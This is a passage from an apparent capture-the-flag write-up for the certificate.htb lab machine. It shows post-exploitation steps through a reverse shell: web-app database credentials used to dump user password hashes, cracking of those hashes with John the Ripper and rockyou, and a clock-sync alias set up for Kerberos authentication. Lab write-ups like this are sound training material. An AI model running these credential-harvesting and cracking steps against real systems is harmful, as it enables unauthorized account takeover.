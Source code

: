 ```php
}
```

Credentials!!! Let's login to the `mysql` server. The reverse shell isn't quite stable so we can run single database commands with the `-e` flag
```powershell
C:\xampp\mysql\bin>.\mysql.exe --user="certificate_webapp_user" --password="cert!f!c@teDBPWD" -e "show databases;"
Database
certificate_webapp_db
information_schema
test
```

```powershell
C:\xampp\mysql\bin>.\mysql.exe --user="certificate_webapp_user" --password="cert!f!c@teDBPWD" -e "use certificate_webapp_db; show tables;"
Tables_in_certificate_webapp_db
course_sessions
courses
users
users_courses
```

```powershell
C:\xampp\mysql\bin>.\mysql.exe --user="certificate_webapp_user" --password="cert!f!c@teDBPWD" -e "use certificate_webapp_db; select username, password from users;"
username	password
Lorra.AAA	$2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG
Sara1200	$2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK
Johney	$2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq
havokww	$2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti
stev	$2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2
sara.b	$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6
dasian	$2y$04$BFMV8A45MAWUzrnt.nSEIOBASF.WnA3ce4Rjv2vi6oAhA50PILxPS
```

Let's try to crack these hashes
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --fork=3 --progress-every=30 crack.txt 
Using default input encoding: UTF-8
Loaded 6 password hashes with 6 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 16 for all loaded hashes
Node numbers 1-3 of 3 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
<PASSWORD_REDACTED>         (sara.b)  
```

### sara.b -> lion.sk
Now we can authenticate with `kerberos`!

To fix the clock skew error I added the following to `~/.zshrc`
```bash
alias sync-ad="faketime \"\$(ntpdate -q certificate.htb | cut -d ' ' -f 1,2)\" "
```
